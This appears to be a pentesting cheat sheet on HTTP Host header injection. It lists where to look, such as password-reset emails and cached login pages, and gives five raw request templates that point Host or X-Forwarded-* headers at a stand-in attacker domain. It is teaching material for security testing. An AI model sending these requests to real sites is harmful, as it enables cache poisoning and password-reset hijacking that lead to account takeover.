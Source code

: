 # Host Header Injection

## Introduction
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## Where to find
In the feature where the website can send email to us. For example forgot password / newsletter.
when Host is reflected in Login page, toghether with cache poisoning, steal password.
Admin modulo is acceptable locally, internal IP.

## How to exploit
1. Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com or localhost or PrivateIP
...
```
2. Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
3. Add line wrapping
```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```
4. Add host override headers
```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Server: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com
```
How to use? In this case im using "X-Forwarded-For : evil.com"
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
5. Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

## References
* [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)
